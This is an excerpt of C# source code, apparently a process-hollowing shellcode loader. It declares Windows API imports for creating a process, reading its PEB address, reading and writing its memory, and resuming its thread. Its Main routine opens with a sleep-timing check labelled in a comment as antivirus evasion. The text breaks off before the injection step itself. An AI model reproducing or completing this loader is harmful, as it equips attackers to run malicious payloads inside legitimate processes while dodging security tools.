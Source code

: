 ```csharp
            public string lpDesktop;
            public string lpTitle;
            public uint dwX;
            public uint dwY;
            public uint dwXSize;
            public uint dwYSize;
            public uint dwXCountChars;
            public uint dwYCountChars;
            public uint dwFillAttribute;
            public uint dwFlags;
            public short wShowWindow;
            public short cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct ProcessBasicInfo
        {
            public IntPtr Reserved1;
            public IntPtr PebAddress;
            public IntPtr Reserved2;
            public IntPtr Reserved3;
            public IntPtr UniquePid;
            public IntPtr MoreReserved;
        }

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
        static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes,
            IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory,
            [In] ref StartupInfo lpStartupInfo, out ProcessInfo lpProcessInformation);

        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
        private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass,
            ref ProcessBasicInfo procInformation, uint ProcInfoLen, ref uint retlen);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer,
            int dwSize, out IntPtr lpNumberOfbytesRW);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern uint ResumeThread(IntPtr hThread);

        public static void Main(string[] args)
        {
            // AV evasion: Sleep for 10s and detect if time really passed
            DateTime t1 = DateTime.Now;
            Sleep(10000);
            double deltaT = DateTime.Now.Subtract(t1).TotalSeconds;
            if (deltaT < 9.5)
```